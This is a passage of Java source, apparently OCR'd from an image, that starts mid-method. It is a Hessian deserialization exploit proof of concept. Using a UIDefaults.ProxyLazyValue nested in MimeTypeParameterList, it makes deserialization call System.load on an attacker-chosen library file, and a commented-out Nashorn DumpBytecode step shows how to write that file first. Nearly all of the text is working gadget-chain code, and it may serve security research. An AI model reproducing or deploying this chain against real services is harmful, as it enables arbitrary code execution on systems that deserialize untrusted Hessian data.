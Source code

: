 ```java

        // 写so/dll文件
//        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("jdk.nashorn.internal.codegen.DumpBytecode",
//                "dumpBytecode", new Object[]{
//                script,
//                debug,
//                code,
//                classname
//        });

        //System.load加载so文件
        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("java.lang.System", "load", new Object[]{
                "E:/Server/calc.class"
        });

        setFieldValue(proxyLazyValue, "acc", null);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put("key", proxyLazyValue);

        Class clazz = Class.forName("java.awt.datatransfer.MimeTypeParameterList");
        Object mimeTypeParameterList = unsafe.allocateInstance(clazz);
        setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(mimeTypeParameterList);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Unsafe getUnsafe() throws Exception {
        Class<?> aClass = Class.forName("sun.misc.Unsafe");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Unsafe unsafe = (Unsafe) declaredConstructor.newInstance();
        return unsafe;
    }
}
```
